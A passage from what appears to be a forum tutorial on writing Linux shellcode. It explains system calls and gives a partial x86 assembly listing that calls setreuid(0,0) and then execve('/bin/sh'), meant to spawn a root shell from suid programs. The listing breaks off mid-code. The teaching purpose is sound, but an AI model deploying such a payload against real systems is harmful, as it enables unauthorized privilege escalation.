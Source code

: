 [Programming for Wannabees. Part III. Your first Shell Code 4](https://0x00sec.org/t/programming-for-wannabees-part-iii-your-first-shell-code/1279)

In addition to the raw assembly instructions found in the processor, Linux provides the programmer with a set of functions that can be easily executed from assembly. These are known as system calls, and they are triggered by using interrupts. A listing of enumerated system calls can be found in `/usr/include/asm/unistd.h`

```cpp
$ head -n 80 /usr/include/asm/unistd.h

#ifndef _ASM_I386_UNISTD_H_
#define _ASM_I386_UNISTD_H_

/*
 * This file contains the system call numbers.
 */

#define __NR_exit                1
#define __NR_fork                2
#define __NR_read                3
...
```

Using the few simple assembly instructions explained in the previous section and the system calls found in unistd.h, many different assembly programs and pieces of bytecode can be written to perform many different functions.

### Shell-Spawning

Shell-spawning code is simple code that executes a shell. This code can be converted into shellcode. The two functions that will be needed are execve() and setreuid(), which are system call numbers 11 and 70 respectively. The execve() call is used to actually execute /bin/sh. The setreuid() call is used to restore root privileges, in case they are dropped. Many suid root programs will drop root privileges whenever they can for security reasons, and if these privileges aren’t properly restored in the shellcode, all that will be spawned is a normal user shell.

There’s no need for an exit() function call, because an interactive program is being spawned. An exit() function wouldn’t hurt, but it has been left out of this example, because ultimately the goal is to make this code as small as possible.

shell.asm
```
section .data    ; section declaration

filepath    db   "/bin/shXAAAABBBB"       ; the string

section .text    ; section declaration

global _start ; Default entry point for ELF linking

_start:

; setreuid(uid_t ruid, uid_t euid)

 mov eax, 70       ; put 70 into eax, since setreuid is syscall #70
 mov ebx, 0        ; put 0 into ebx, to set real uid to root
 mov ecx, 0        ; put 0 into ecx, to set effective uid to root
 int 0x80          ; Call the kernel to make the system call happen

; execve(const char *filename, char *const argv [], char *const envp[])

 mov eax, 0        ; put 0 into eax
 mov ebx, filepath ; put the address of the string into ebx
 mov [ebx+7], al   ; put the 0 from eax where the X is in the string
                   ; ( 7 bytes offset from the beginning)
 mov [ebx+8], ebx  ; put the address of the string from ebx where the
```